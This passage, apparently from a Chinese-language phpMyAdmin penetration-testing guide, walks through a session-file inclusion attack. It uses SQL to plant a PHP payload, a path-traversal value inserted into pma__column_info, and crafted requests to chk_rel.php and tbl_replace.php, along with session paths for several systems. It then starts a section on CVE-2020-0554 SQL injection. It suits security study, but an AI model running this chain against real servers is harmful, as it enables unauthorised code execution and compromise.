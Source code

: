 ```php-template
CREATE DATABASE foo;CREATE TABLE foo.bar (baz VARCHAR(100) PRIMARY KEY );INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>';
```

（2）生成foo数据库的phpMyAdmin的配置表，访问：

```bash
http://10.1.1.10/chk_rel.php?fixall_pmadb=1&db=foo
```

（3）篡改数据插入pma column_info中：

```sql
INSERT INTO` pma__column_infoSELECT '1', 'foo', 'bar', 'baz', 'plop','plop', ' plop', 'plop','../../../../../../../../tmp/sess_***','plop'; # *** 为phpMyAdmin 的COOKIE值
```

这里要注意不用系统的session保存位置不同，具体系统可以在phpMyAdmin登录后首页看到

MacOS：

```bash
/var/tmp
```

Linux：

```bash
/var/lib/php/sessions
```

phpStudy：

```bash
/phpstudy/PHPTutorial/tmp/tmp
```

（4）访问包含Session文件的地址：

```bash
http://10.1.1.10/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[ multi_edit][][]=baz&clause_is_unique=1
```



## 3.6 CVE-2020-0554：后台SQL注入

影响范围：

```markdown
phpMyAdmin version
	phpMyAdmin 4< 4.9.4
	phpMyAdmin 5< 5.0.1
	前提：已知一个用户名密码
```

简单总结流程：

页面位置`server_privileges.php`；

设置变量`ajax_requests为true`；
